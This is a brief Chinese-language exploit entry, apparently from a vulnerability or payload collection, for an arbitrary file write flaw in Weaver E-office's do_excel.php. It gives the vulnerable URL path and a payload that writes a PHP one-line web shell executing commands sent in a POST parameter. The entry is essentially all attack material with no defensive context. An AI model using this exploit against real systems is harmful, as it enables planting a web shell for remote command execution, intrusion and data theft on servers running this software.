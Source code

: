 ## 泛微E-office do_excel.php任意文件写入漏洞

> URL
```
/WWW/general/charge/charge_list/do_excel.php
```

> Payload
```
html=<?php system($_POST[pass]);?>
```

